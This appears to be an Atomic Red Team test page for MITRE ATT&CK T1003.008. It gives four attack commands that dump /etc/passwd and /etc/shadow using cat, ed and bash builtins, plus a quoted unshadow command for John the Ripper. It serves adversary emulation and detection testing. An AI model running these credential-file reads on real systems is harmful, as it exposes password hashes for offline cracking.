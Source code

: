 # T1003.008 - /etc/passwd and /etc/shadow
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/008)
<blockquote>Adversaries may attempt to dump the contents of <code>/etc/passwd</code> and <code>/etc/shadow</code> to enable offline password cracking. Most modern Linux operating systems use a combination of <code>/etc/passwd</code> and <code>/etc/shadow</code> to store user account information including password hashes in <code>/etc/shadow</code>. By default, <code>/etc/shadow</code> is only readable by the root user.(Citation: Linux Password and Shadow File Formats)

The Linux utility, unshadow, can be used to combine the two files in a format suited for password cracking utilities such as John the Ripper:(Citation: nixCraft - John the Ripper) <code># /usr/bin/unshadow /etc/passwd /etc/shadow > /tmp/crack.password.db</code>
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access /etc/shadow (Local)](#atomic-test-1---access-etcshadow-local)

- [Atomic Test #2 - Access /etc/passwd (Local)](#atomic-test-2---access-etcpasswd-local)

- [Atomic Test #3 - Access /etc/{shadow,passwd} with a standard bin that's not cat](#atomic-test-3---access-etcshadowpasswd-with-a-standard-bin-thats-not-cat)

- [Atomic Test #4 - Access /etc/{shadow,passwd} with shell builtins](#atomic-test-4---access-etcshadowpasswd-with-shell-builtins)


<br/>

## Atomic Test #1 - Access /etc/shadow (Local)
/etc/shadow file is accessed in Linux environments

**Supported Platforms:** Linux


**auto_generated_guid:** 3723ab77-c546-403c-8fb4-bb577033b235





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | Path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
sudo cat /etc/shadow > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```bash
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #2 - Access /etc/passwd (Local)
/etc/passwd file is accessed in Linux environments

**Supported Platforms:** Linux


**auto_generated_guid:** 60e860b6-8ae6-49db-ad07-5e73edd88f5d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | Path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`! 


```sh
cat /etc/passwd > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #3 - Access /etc/{shadow,passwd} with a standard bin that's not cat
Dump /etc/passwd and /etc/shadow using ed

**Supported Platforms:** Linux


**auto_generated_guid:** df1a55ae-019d-4120-bc35-94f4bc5c4b0a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | Path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
echo -e "e /etc/passwd\n,p\ne /etc/shadow\n,p\n" | ed > #{output_file}
```

#### Cleanup Commands:
```bash
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #4 - Access /etc/{shadow,passwd} with shell builtins
Dump /etc/passwd and /etc/shadow using bash builtins

**Supported Platforms:** Linux


**auto_generated_guid:** f5aa6543-6cb2-4fae-b9c2-b96e14721713





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | Path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
function testcat(){ echo "$(< $1)"; }
testcat /etc/passwd > #{output_file}
testcat /etc/shadow > #{output_file}
```

#### Cleanup Commands:
```bash
rm -f #{output_file}
```





<br/>
